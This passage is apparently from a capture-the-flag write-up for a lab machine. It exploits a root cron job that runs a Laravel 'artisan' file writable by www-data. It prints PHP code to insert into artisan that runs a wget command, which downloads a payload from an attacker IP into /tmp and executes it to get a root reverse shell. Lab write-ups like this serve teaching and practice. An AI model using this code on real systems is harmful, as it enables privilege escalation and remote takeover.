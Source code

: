 That job will run as `root` every minute of every hour of every day of every month of every year (`* * * * *`). Looking at the folder `/var/www/laravel` shows that the `www-data` user has write permissions for the `artisan` file.

```bash
ls -la /var/www/laravel
```

![laravel](./cronos/laravel.png)

The `artisan` file source code can be found on the project's GitHub:

- https://github.com/laravel/laravel/blob/master/artisan

Since this file is just PHP code, it is possible to insert custom PHP code to spawn another reverse shell by adding the following PHP code to the top of the `artisan` file:

```php
function executeCommand(string $command) {
  # Try to find a way to run our command using various PHP internals
  if (class_exists('ReflectionFunction')) {
    # http://php.net/manual/en/class.reflectionfunction.php
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    # http://php.net/manual/en/function.call-user-func-array.php
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    # http://php.net/manual/en/function.call-user-func.php
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    # https://www.php.net/manual/en/function.passthru.php
    ob_start();
    passthru($command , $return_var);
    $output = ob_get_contents();
    ob_end_clean();
  } else if(function_exists('system')){
    # this is the last resort. chances are PHP Suhosin
    # has system() on a blacklist anyways :>

    # http://php.net/manual/en/function.system.php
    system($command);
  }
}
executeCommand('wget http://10.10.14.23:8080/root.bubba.elf -P /tmp/ && chmod +x /tmp/root.bubba.elf && /tmp/root.bubba.elf &');
```